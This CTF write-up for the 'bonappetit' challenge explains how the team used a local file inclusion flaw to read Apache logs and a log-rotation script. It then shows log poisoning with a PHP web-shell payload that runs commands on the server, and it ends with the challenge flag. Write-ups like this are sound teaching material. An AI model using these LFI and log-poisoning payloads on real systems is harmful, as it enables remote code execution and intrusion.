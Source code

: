 Hello all  , after reading some write up , i notice that 90% of players solved this challenge with the simple and easy way 

using .htaccess file to find the flag file name and then read it using LFI was really easy and fast 


But in our team always we look for hard way :D joking 

First we found that there is LFI vuln in the website which make us able to read any file in the server :

```
http://bonappetit.stillhackinganyway.nl/?page=LFI HERE
```

so here you can read all what you need to deal with this challenge 

the easy way is that you find the .htaccess file and then read the flag using the name mention in this file 

as we dont check this file we did my own solution and as i thin its the goal of this task

when you read the source of home page we see text : 

<!-- TODO: Check apache access and error log for errors -->

so we check the log files access.log but we dont find it , then check access.log.1 and we get it ,also log.sh file used to create the log file 


"output : All logs are saved in /var/www/html/logs/[client_ip].log, rotated after 10 entries."

```
http://bonappetit.stillhackinganyway.nl/?page=file:///var/log/apache2/access.log.1
http://bonappetit.stillhackinganyway.nl/log.sh

#!/bin/bash

while read -r
do
   HOST=$(echo $REPLY|awk '{ print $1 }')
   LOG=/var/www/html/logs/${HOST}.log
   touch ${LOG}

   # Check length
   LEN=$(cat ${LOG}| wc -l) 
   if [ ${LEN} -gt 10 ] 
   then
      > ${LOG}
   fi

   echo "${REPLY}" >> ${LOG}  2>&1
done

exit 0
```

then we just did simple log poisoning and run our command in the server 

```
GET /<?php system($_GET['a']);?>
```

then

```
bonappetit.stillhackinganyway.nl/?page=file:///var/www/html/logs/our_ip.log&a=ls
```

![pasted image at 2017_08_05 01_06 pm](https://user-images.githubusercontent.com/7364615/29022899-8bd968d0-7b6b-11e7-8f3e-c3a454d9fd65.png)


and finaly read the flag 

![envoye_le_5_8_2017_a_13_09_05](https://user-images.githubusercontent.com/7364615/29022986-dead8cf8-7b6b-11e7-877d-9d8d58bf6049.png)

flag{82d8173445ea865974fc0569c5c7cf7f}
